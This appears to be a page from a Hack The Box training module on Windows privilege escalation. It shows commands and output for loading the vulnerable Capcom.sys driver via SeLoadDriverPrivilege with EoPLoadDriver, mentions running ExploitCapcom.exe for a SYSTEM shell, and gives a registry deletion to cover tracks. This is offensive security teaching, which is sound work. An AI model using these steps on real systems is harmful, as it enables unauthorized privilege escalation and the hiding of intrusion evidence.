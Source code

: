 
## Automating the Steps

#### Automating with EopLoadDriver

We can use a tool such as [EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver/) to automate the process of enabling the privilege, creating the registry key, and executing `NTLoadDriver` to load the driver. To do this, we would run the following:

Print Operators

```cmd-session
C:\htb> EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys

[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-454284637-3659702366-2958135535-1103\System\CurrentControlSet\Capcom
NTSTATUS: c000010e, WinError: 0
```

We would then run `ExploitCapcom.exe` to pop a SYSTEM shell or run our custom binary.

---

## Clean-up

#### Removing Registry Key

We can cover our tracks a bit by deleting the registry key added earlier.

Print Operators

```cmd-session
C:\htb> reg delete HKCU\System\CurrentControlSet\Capcom

Permanently delete the registry key HKEY_CURRENT_USER\System\CurrentControlSet\Capcom (Yes/No)? Yes

The operation completed successfully.
```

Note: Since Windows 10 Version 1803, the "SeLoadDriverPrivilege" is not exploitable, as it is no longer possible to include references to registry keys under "HKEY_CURRENT_USER".

